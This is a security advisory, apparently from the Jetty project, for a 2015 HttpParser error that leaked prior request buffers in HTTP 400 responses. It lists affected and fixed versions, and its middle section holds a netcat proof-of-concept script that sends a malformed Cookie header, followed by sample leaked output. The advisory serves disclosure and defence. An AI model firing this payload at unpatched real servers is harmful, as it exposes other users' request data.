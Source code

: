 HttpParser Error Buffer Bleed Vulnerability
===========================================

Published Date:
---------------

2015, Feb 24

CVE:
----

*(not yet assigned)*

Discovered and Reported By:
---------------------------

[GDS Security](http://www.gdssecurity.com/) and Stephen Komal


Affected Versions of Jetty:
---------------------------

  * 9.2.3.v20140905
  * 9.2.4.v20141103
  * 9.2.5.v20141112
  * 9.2.6.v20141205
  * 9.2.7.v20150116
  * 9.2.8.v20150217

Version of Jetty Containing Fix:
--------------------------------

  * 9.2.9.v20150224

Statement:
----------

Jetty versions 9.2.3.v20140905 through 9.2.8.v20150217 have a ByteBuffer reuse and information bleed vulnerability surrounding bad HTTP request header parsing error responses.

History:
--------

Back in Jetty 9.2.3, a feature requesting more detailed logging messages surrounding problems parsing bad HTTP request headers ( https://bugs.eclipse.org/443049 ) was implemented.

The feature request was to include better debug information in the Jetty logs (at WARN level) to help diagnose and resolve HTTP parsing errors.

However, the implementation incorrectly exposes this debug information back on the HTTP 400 response reason phrase, potentially exposing parts of server side buffers used from prior request processing on the same server.

The following bash shell script demonstrates the problem using netcat on linux against the Jetty Distribution's demo-base.

```
#!/bin/bash

RESOURCEPATH="/test/dump/info"
BAD=$'\a'

function normalRequest {
echo "-- Normal Request --"

nc localhost 8080 << NORMREQ
POST $RESOURCEPATH HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Connection: close
Content-Length: 16

Username=Joakim
NORMREQ
}

function badCookie {
echo "-- Bad Cookie --"

nc localhost 8080 << BADCOOKIE
GET $RESOURCEPATH HTTP/1.1
Host: localhost
Coo${BAD}kie: ${BAD}

BADCOOKIE
}

normalRequest
echo ""
echo ""
badCookie
```

The results are often seen in the HTTP response such as ...

```
HTTP/1.1 400 Illegal character 0x7 in state=HEADER_IN_NAME in 'GET /dummy/ HTTP/... localhost\nCoo\x07<<<kie: \x07\n\n>>>e: application/x-...\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Content-Length: 0
Connection: close
Server: Jetty(9.2.8.v20150217)
```

What you are seeing is a http response phrase that includes raw ByteBuffer details on what happened during the parsing failure.

The parts of the output are in the general form
`{what_has_been_parsed}<<<{left_to_parse}>>>{old_buffer_seen_past_limit}`

The part at `{old_buffer_seen_past_limit}` is where this exposure of past buffers comes from.  It is this information where an exploit could be made to present random prior buffers from the server buffer pool.  This information can contain anything seen in a past handled request.

We have this problem already patched in Jetty 9.2.9.v20150224, and the same test as above results in ...

```
HTTP/1.1 400 Illegal character 0x7
Content-Length: 0
Connection: close
Server: Jetty(9.2.9.v20150224)
```

Everyone is strongly encouraged to upgrade to Jetty 9.2.9.v20150224 immediately.



